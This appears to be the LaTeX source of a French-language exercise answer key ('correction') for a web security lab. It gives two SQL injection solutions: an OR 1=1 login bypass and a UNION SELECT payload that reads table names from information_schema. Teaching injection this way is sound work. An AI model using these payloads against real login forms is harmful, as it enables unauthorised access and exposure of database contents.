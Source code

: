 \documentclass[a4paper,9pt]{article}
\theoremstyle{plain}
\theoremstyle{definition}
\begin{document}
\begin{correction}
  \begin{enumerate}
  \item Une solution est:
    \begin{verbatim}
Login: Marc" OR 1=1 OR 2="1
Mot de passe: anything
\end{verbatim}
  \item Une solution est:
    \begin{verbatim}
Login: Marc 
Mode de passe: 1234"UNION SELECT " " AS login, "2014-01-01" as date, CONCAT(TABLE_SCHEMA,'.',TABLE_NAME) as tache FROM information_schema.tables WHERE "1"="1
\end{verbatim}
    \end{enumerate}
\end{correction}
\end{document}
